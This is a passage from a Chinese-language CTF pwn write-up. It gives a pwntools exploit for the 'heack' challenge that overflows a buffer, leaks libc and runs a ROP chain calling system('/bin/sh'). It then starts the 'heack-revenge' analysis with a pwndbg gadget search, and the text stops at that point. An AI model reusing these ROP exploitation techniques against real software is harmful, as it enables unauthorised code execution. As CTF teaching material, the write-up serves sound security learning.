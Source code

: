 ```py
p.recvuntil("You grip your sword and shout:")
p.sendline(b"a"*259 + b"\x17" + p16(0x191a))
p.recvuntil("[Attack]: ")
libc_leak = int(p.recvuntil("\n").strip())
log.info(f"libc leak: {hex(libc_leak)}")

libc_base =  libc_leak -  0x204643
log.info(f"libc base: {hex(libc_leak - 0x204643)}")
pop_rdi_ret = libc_base + 0x10f75b
ret = libc_base + 0x10f75c
system = libc_base + libc.symbols['system']
binshell = libc_base + 0x1CB42F
p.recvuntil("> ")
p.sendline("1")
# gdb.attach(p)
# pause()
p.recvuntil("You grip your sword and shout:")
p.sendline(b"a"*259 + b"\x17" + p64(ret) + p64(pop_rdi_ret) + p64(binshell) + p64(system))

p.interactive()
```

## heack-revenge

在以下叙述中，堆块地址指的是 malloc 返回的，在 header 之后的真正用来写的起始地址，堆块 header 地址指的是 malloc 返回的地址 - 0x10，即是指向该堆块 header 的地址   

本题对 heack 题目里面劫持控制流的能力进行了限制，具体来说，`fight_dragon` 函数中，返回地址只能覆盖最低一个字节，并且该函数只能调用一次，调用第二次则会在函数开头 `exit` 掉

除此之外，没有其他可利用漏洞

我们需要考虑，劫持返回地址到什么地方才能方便后续利用

在这个点上卡了很久，最后还是杰哥找到了合适的 gadget（让我们说：谢谢杰哥！）   
大概就是考虑到它有魔数如下   
```c
  v5 = 19533573;
  v6 = 2035549;
  v7 = 20250712;
  printf("Data: %d\n", 20250712LL);
```
这个 v7 是 v5 ^ v6 算出来的，杰哥就反应到了 v6 的值 `1F0F5Dh` 比较眼熟   
我们在这两个指令附近用 gdb 解析指令找 gadget   
```
pwndbg> x/20gi $rebase(0x186a)
   0x55555555586a <game+65>:    pop    rbp
   0x55555555586b <game+66>:    nop    DWORD PTR [rax]
   0x55555555586e <game+69>:    mov    edx,DWORD PTR [rbp-0x18]
   0x555555555871 <game+72>:    mov    eax,DWORD PTR [rbp-0x14]
```

得到了以上结果
